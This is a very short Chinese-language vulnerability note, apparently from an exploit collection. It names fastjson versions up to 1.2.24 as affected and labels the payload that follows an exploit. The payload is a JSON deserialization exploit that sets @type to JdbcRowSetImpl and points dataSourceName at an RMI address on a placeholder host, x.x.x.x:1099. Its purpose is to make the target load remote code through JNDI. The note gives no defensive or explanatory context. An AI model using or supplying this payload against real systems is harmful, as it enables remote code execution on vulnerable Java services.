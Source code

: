 影响版本：  
- fastjson<=1.2.24  

exp：
```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://x.x.x.x:1099/jndi", "autoCommit":true}
```
